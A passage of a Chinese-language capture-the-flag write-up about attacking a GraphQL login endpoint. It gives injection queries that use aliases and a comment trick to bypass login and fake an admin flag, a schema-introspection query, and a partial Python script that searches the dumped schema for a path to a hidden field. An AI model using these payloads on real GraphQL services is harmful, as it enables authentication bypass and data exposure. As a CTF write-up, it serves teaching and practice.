 先注册一个用户，随后构造恶意的查询


```graphql
query ($username: String = "1", $password: String = "1") {
  login(username: $username, password: $password) {
    ok
    isAdmin: ok
    username: __schema__
  }and: #"{
  login(username: $username, password: $password) {
    ok
    isAdmin
    username
  }
}
```

这样就能登录到新注册的用户下，并且把 `isAdmin` 字段改成了 `ok` 的别名，也就会是 true

#### Flag 2

先获取到 Schema


```graphql
query ($username: String = "1", $password: String = "1") {
  login:__schema {
    ok: queryType{name}
    isAdmin: queryType{name}
    username: types{fields{name, type{name}},name}
  }and: #"{
  login(username: $username, password: $password) {
    ok
    isAdmin
    username
  }
}
```

写个脚本找到 schema 里面从 Secret 到 flag2 的路径

```python
schema = [] # redacted
path = ["flag2"]

typename = ""

for sch in schema:
    early = False
    if not sch['fields']:
        continue
    for f in sch['fields']:
        if f['name'] == 'flag2':
            typename = sch['name']
            early = True
            break
    if early:
        break

while path[-1] != 'secret':
    for sch in schema:
        early = False
        if not sch['fields']:
            continue
        for f in sch['fields']:
            if f['type']['name'] == typename:
                path.append(f['name'])
```